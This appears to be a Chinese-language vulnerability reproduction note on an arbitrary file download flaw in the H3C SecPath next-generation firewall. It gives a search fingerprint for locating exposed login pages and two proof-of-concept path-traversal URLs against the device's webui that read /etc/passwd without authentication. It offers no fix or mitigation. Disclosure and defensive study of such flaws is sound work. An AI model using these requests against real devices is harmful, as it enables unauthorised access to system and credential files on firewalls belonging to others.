 # H3C SecPath下一代防火墙 任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

```
H3C SecPath
```

## 网络测绘

```
title="Web user login"
```

## 漏洞复现

登录页面如下

![](images/202202110914717.png)

存在漏洞点的功能有两个

![](images/202202110914728.png)

点击下载抓包更改请求

![](images/202202110914422.png)

并且在未身份验证的情况中，也可以请求下载敏感文件

验证POC

```plain
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd

/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd
```